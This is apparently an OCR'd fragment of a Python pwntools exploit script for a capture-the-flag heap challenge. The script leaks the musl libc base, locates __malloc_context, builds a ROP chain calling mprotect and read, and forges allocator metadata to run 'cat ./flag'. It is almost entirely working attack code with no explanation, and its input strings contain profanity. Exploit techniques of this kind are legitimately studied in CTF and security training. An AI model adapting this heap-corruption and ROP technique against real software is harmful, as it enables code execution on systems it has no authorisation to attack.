 ```python
    return
def show(idx):
    sh.sendlineafter(b">> ",b'3')
    sh.sendlineafter(b"Index: ",str(idx))
    return 
def gift(write_addr,leak_addr):
    sh.sendlineafter(b">> ",b'1932620593')
    sh.sendline(str(write_addr))
    sh.sendline(str(leak_addr))
    return
for i in range(5):
    add(b'a'*0xf,0x2c,b'a'*0x2c)
dele(4)
add(b'fuckyou',420,b'aiofoahfio\n')

add(b'a'*0xf,0x1000,':)\n') 
show(5)
libc_base = u64(sh.recvuntil(b'\x7f')[-6:].ljust(8,b'\x00')) - 0x20 + 0x4000
success('libc_base : '+hex(libc_base))
libc = ELF('./libc.so')
malloc_ctx = libc_base + libc.sym['__malloc_context'] 
success('malloc_context : '+hex(malloc_ctx))
for i in range(6):
    dele(i)
context.log_level = 'debug'
gadget = 0x4bcf3
pop_rdi = 0x15536+libc_base
pop_rsi = libc_base +0x1b3a9
pop_rdx = libc_base + 0x177c7
read_addr = libc_base + libc.sym['read']
mprotect_addr = libc_base + libc.sym['mprotect']
Payload = p64(0)*6
Payload += p64(libc_base-0x2000+0x100) 
Payload += p64(pop_rdi)
Payload += p64(0)
Payload += p64(libc_base + gadget)
Payload += p64(0) * 20
Payload += p64(libc_base)
Payload += p64(pop_rsi)
Payload += p64(0x1000)
Payload += p64(pop_rdx)
Payload += p64(7)
Payload += p64(mprotect_addr)
Payload += p64(pop_rdi)
Payload += p64(0)
Payload += p64(pop_rsi)
Payload += p64(libc_base)
Payload += p64(pop_rdx)
Payload += p64(0x200)
Payload += p64(read_addr)
Payload += p64(libc_base) + b'\n'
add(b'fuckyou',0xa9c,Payload)  #0 
add(b'fuckyou',0x1000,b'a'*0x520+p64(libc_base-0x1000+0x40)+p64(0)+p64(libc_base-0x1000+0x10)+b'\x02'+b'\x00'*7+b'cat ./flag\x00'+b'\n') # 1
add(b'fuckyou',0x1000,b'a'*0xfd7+b'\x00'+p32(5)+b'\n') #2
gift(libc_base-0x4a82,malloc_ctx)
sh.recvuntil(b'0x')
check = int(sh.recvline()[:-1],16)
success("check : "+hex(check))
meta = fakeMeta()
meta.prev = libc_base-0x2000+0x10
meta.next = libc_base + libc.sym['ofl_head']
meta.mem = libc_base-0x5a90
```